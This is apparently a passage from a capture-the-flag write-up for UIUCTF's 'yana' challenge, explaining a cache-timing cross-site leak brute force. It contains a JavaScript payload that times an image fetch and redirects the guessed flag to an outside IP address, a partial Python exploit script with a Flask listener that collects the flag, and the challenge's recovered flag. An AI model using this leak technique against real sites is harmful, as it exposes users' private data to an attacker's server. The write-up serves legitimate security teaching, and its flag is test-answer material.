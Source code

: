 ![image](https://user-images.githubusercontent.com/49112423/128592823-ca4e045c-bf08-4743-899b-d6d51db68f19.png)

OMG When sending the included query, it took about 3s?3ms?!!

Now let's use this to brute force. However, when doing brute force, sending many requests at once can cause bot.js to close.

I got one letter and proceeded with a new run.

```html
<script>
    const image = "https://sigpwny.com/uiuctf/y.png"
    const requestbin = "//141.164.52.207:9999/flag"

    const flag = location.search.split('=')[1]
    window.open(`https://chal.yana.wtf/#${flag}`);

    setTimeout(() => {
        const start = new Date();
        fetch(image).then(d => {
            end = new Date();
            if ((end-start) < 8){
                location.replace(requestbin + `?flag=${flag}`);
            }
            //}
        });
    }, 1000)
</script>
```

```python
# exploit.py
from pwn import *
from time import sleep
from flask import *
from sys import exit
from threading import * 

app = Flask(__name__)

bot_url = "yana-bot.chal.uiuc.tf"
bot_port = 1337

condition = True
#FLAG = b"uiuctf{"
#FLAG = b"uiuctf{y"
#FLAG = b"uiuctf{y0"
# (...)
#FLAG = b"uiuctf{y0u_m4y_w4nt_2_d3let3_y0ur_gh_p4g3s_s1t3_or_r1sk_0thers_d01ng_4_crtsh_lo"
#FLAG = b"uiuctf{y0u_m4y_w4nt_2_d3let3_y0ur_gh_p4g3s_s1t3_or_r1sk_0thers_d01ng_4_crtsh_lo0"
#FLAG = b"uiuctf{y0u_m4y_w4nt_2_d3let3_y0ur_gh_p4g3s_s1t3_or_r1sk_0thers_d01ng_4_crtsh_lo0k"
#FLAG = b"uiuctf{y0u_m4y_w4nt_2_d3let3_y0ur_gh_p4g3s_s1t3_or_r1sk_0thers_d01ng_4_crtsh_lo0ku"
FLAG = b"uiuctf{y0u_m4y_w4nt_2_d3let3_y0ur_gh_p4g3s_s1t3_or_r1sk_0thers_d01ng_4_crtsh_lo0kup"

poc_url = b"http://141.164.52.207/xsleak/exploit.html?a="
char_list = list('abcdefghijklmnopqrstuvwxyz1234567890}{_')

@app.route('/flag')
def index():
    global FLAG, condition
    FLAG = request.args.get('flag')
    condition = False
    log.info("Success!")
    log.info(f'The flag is : {FLAG}')

    return "Success"
```